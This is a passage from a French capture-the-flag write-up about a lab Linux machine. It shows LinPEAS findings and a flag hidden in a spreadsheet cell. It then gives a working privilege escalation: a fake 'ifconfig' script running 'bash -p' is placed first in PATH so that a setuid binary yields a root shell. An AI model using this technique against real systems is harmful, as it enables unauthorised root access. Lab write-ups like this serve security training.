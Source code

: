 Une fois un shell récupéré et un *LinPEAS* exécuté on voit quelques vulnérabilités sur le système :  

```plain
╔══════════╣ USBCreator
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation
Vulnerable!!
```

Ou encore la fameuse faille *Sudo Baron Samedit* mais il y a surtout un binaire setuid à un endroit inhabituel :  

```plain
-rwsr-xr-x 1 root root 8.2K Sep 17  2019 /opt/ignite (Unknown SUID binary)
```

On verra ça ensuite car pour le moment je remarque des fichiers *yaka.xlsx* et *yakahints.txt* dans le même dossier.  

Le fichier texte a le contenu suivant :  

> Guardians Of The Galaxy Vol.1 Release Date is 20 14

20 et 14, surement les coordonnées d'une cellule dans le tableur. Et effectivement en 20N je retrouve le flag :  

```plain
Yaka Arrow:{74E57403424607145B9B77809DEB49D0}
```

Storm Breaker
-------------

 Au tour de ce binaire setuid qui fait exécuter *ifconfig* sans path absolu :  

```plain
splunk@ubuntu:/tmp$ /opt/ignite 
enp0s17: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.17  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::f4e6:1143:1664:37ec  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:44:29:b0  txqueuelen 1000  (Ethernet)
        RX packets 1879536  bytes 267392583 (267.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2044601  bytes 1395857369 (1.3 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 446063  bytes 245096518 (245.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 446063  bytes 245096518 (245.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

splunk@ubuntu:/tmp$ cat ifconfig 
#!/bin/bash
bash -p
splunk@ubuntu:/tmp$ chmod +x ifconfig 
splunk@ubuntu:/tmp$ export PATH=.:$PATH
splunk@ubuntu:/tmp$ /opt/ignite 
root@ubuntu:/tmp# id
uid=0(root) gid=1001(splunk) groups=1001(splunk)
root@ubuntu:/tmp# cd /root/
root@ubuntu:/root# ls
final.txt
root@ubuntu:/root# cat final.txt 

 █████╗ ██████╗ ███████╗███████╗███╗   ██╗ █████╗ ██╗     
██╔══██╗██╔══██╗██╔════╝██╔════╝████╗  ██║██╔══██╗██║     
```